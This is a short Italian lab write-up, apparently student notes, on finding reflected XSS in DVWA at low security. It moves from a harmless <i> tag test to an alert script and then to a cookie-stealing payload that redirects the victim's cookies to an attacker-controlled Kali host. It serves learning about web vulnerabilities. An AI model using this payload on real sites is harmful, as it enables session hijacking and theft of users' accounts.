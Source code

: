 ho iniziato a impostare la sicurazza della dvwa a low,cosi porter effettura i test con facilità ,collegandomi alla dvwa sono andato su xss reflected e ho scritto prima una parola di prova e poi la parola con <i> cosi da formattare il testo in corsivo e capire se il sito era vulnerabile o meno,in questo caso il sito era vulenrabile ,in questo caso "input non validato che accettare input senza convalida permette l’inserimento di dati malevoli" poi ho continuato con "<script>alert(‘provaʼ)</script>" che permette di visulizzare un pop up dopo l'inserimento,una utile vulnerabilità per rubare i coockie
di un utente e inviarli verso un web server che controlliamo noi (in questo caso kali) usando come script <script>window.location='http:ipmacchina:porta/?cookie=' + document.cookie;</script> ,Window.location  fa ilredirect di una pagina Il cookie viene riempito con i dati della vittima, recuperati tramite 'document.cookie'
